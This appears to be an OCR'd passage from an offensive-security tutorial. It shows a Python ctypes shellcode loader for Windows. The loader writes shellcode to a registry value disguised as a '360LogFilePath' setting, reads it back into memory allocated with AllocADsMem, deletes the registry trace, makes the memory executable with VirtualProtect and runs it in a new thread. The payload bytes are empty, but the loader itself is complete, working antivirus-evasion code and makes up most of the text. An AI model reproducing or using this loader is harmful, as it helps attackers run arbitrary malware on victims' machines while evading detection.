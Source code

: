 ​ Utilization idea: Since the registry can store binary content, use the `RegQueryValueExA` function to obtain the content in the registry, and write the `shellcode` into the registry content in combination with the `RegSetValueExA` function, allocate a piece of memory with `AllocADsMem` or `ReallocADsMem`, store the content read from the registry into the allocated memory, and then execute it.

```python
# -*-coding:utf-8 -*-
"""
The ctypes library is a module in Python that calls the system dynamic link library functions. The ctypes library can use the C language dynamic link library and pass functions to it.
AllocADsMem+ReallocADsMem+VirtualProtect+RtlCopyMemory
"""
import ctypes
from ctypes.wintypes import *

shellcode = b''

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.POINTER(ctypes.c_byte)
ptr = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode)))
ctypes.windll.Advapi32.RegSetValueExA(
    -2147483647, # The handle of the open registry key
    "360LogFilePath", # The name of the value to be set, if the value with this name does not exist in the key, the function will add it to the key
    None, # This parameter is reserved and must be zero
    3, # The data type to which the data to be stored is pointed to, the value of REG_BINARY is 3
    shellcode, # data to be stored
    len(shellcode) # The size of the information to which the data to be stored
)
# lpcbData is the length of the shellcode. Here you need to execute RegQueryValueExA first to get the shellcode length, and then directly call RegQueryValueExA to read the requested memory
data_len = DWORD()
ctypes.windll.Advapi32.RegQueryValueExA(
    -2147483647, # The handle of the open registry key
    "360LogFilePath", # Name of the registry value
    0, # This parameter is reserved and must be NULL
    0, # Pointer to a variable that receives a code indicating the type of data stored in the specified value. If type code is not required, it can be NULL
    0, # Point to Receive
Pointer to the buffer of value data. If data is not needed, this parameter can be NULL
    ctypes.byref(data_len) # Pointer to a variable that specifies the size of the buffer to which the lpData parameter points
)
ctypes.windll.Advapi32.RegQueryValueExA(-2147483647, "360LogFilePath", 0, None, ptr, ctypes.byref(data_len))
# Delete the written registry
ctypes.windll.Advapi32.RegDeleteValueA(-2147483647, "360LogFilePath")
ctypes.windll.kernel32.VirtualProtect(ptr, ctypes.c_int(len(shellcode)), 0x40, ctypes.byref(ctypes.c_long(1)))
handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr, 0, 0, ctypes.pointer(ctypes.c_int(0)))
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))
```
